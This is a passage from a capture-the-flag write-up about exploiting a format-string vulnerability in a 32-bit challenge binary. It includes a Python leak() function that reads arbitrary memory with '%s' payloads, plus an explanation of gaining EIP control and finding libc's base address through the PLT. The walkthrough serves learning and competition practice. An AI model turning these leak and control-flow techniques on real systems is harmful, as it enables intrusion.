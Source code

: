 If that doesn't make sense, read the last blog - this is exactly the same attack (except simpler, because we only have to write a single byte).

### leak()

Meanwhile, my teammate wrote this function that, while ugly, can leak arbitrary memory addresses using "%s":

```
<pre id="vimCodeElement">
<span class="Statement">def</span> <span class="Identifier">leak</span>(address):
    <span class="Identifier">print</span> >> sys.stderr, <span class="Constant">"*** Leak 0x%04x"</span> % address
    s = <span class="Constant">"51.492137,-0.192878 "</span> + struct.pack(<span class="Constant">"<I"</span>, address) + <span class="Constant">" >>>%20$s<<<"</span>
    s = <span class="Constant">"    51.492137,-0.192878 >>>%24$s<<< "</span> + struct.pack(<span class="Constant">"<IIII"</span>, address, address, address, address)
    <span class="Comment">#print >> sys.stderr, "s", repr(s)</span>
    <span class="Identifier">print</span> s
    sys.stdout.flush()
    sys.stdin.readline() <span class="Comment"># Echoed coordinates.</span>
    resp = sys.stdin.readline()
    <span class="Comment">#print >> sys.stderr, "resp", repr(resp)</span>
    m = re.search(<span class="Constant">r'>>>(.*)<<<'</span>, resp, flags=re.DOTALL)
    <span class="Statement">while</span> m <span class="Statement">is</span> <span class="Identifier">None</span>:
        extra = sys.stdin.readline()
        <span class="Statement">assert</span> extra, <span class="Identifier">repr</span>(extra)
        resp += extra
        <span class="Identifier">print</span> >> sys.stderr, <span class="Constant">"read again"</span>, <span class="Identifier">repr</span>(resp)
        m = re.search(<span class="Constant">r'>>>(.*)<<<'</span>, resp, flags=re.DOTALL)
    <span class="Statement">assert</span> m <span class="Statement">is</span> <span class="Statement">not</span> <span class="Identifier">None</span>, <span class="Identifier">repr</span>(resp)
    resp = m.group(<span class="Constant">1</span>)
    <span class="Statement">if</span> resp == <span class="Constant">""</span>:
        resp = <span class="Constant">"</span><span class="Special">\0</span><span class="Constant">"</span>
    <span class="Statement">return</span> resp
```

Then, exactly like the last blog, we use the vulnerability to leak a return address and frame pointer, then overwrite the return address with a chosen address, and thus obtain EIP control.

### Getting libc's base address

Next, we needed an address to return to. This was a little tricky, since I wasn't able to steal a copy of their libc.so file (it's the only 32-bit level our team worked on) - that means I could easily exploit myself, because I have libc handy, but I couldn't exploit them. There's a "pwntool" module that can find base addresses given a memory leak, but it was too slow and the binary would time out before it finished (more on that later).

So, I used the format-string vulnerability and a bit of experience to get the base address of libc. We use %s in the format string to leak data from the [PLT](https://stackoverflow.com/questions/20486524/what-is-the-purpose-of-the-procedure-linkage-table) and get an address of anything in the libc binary - I chose to find printf() because it's the first one I could think of. That's at a static offset in the wwtw binary file (we already know the return address, since we leaked it off the stack, and that can be used to calculate where the PLT is).
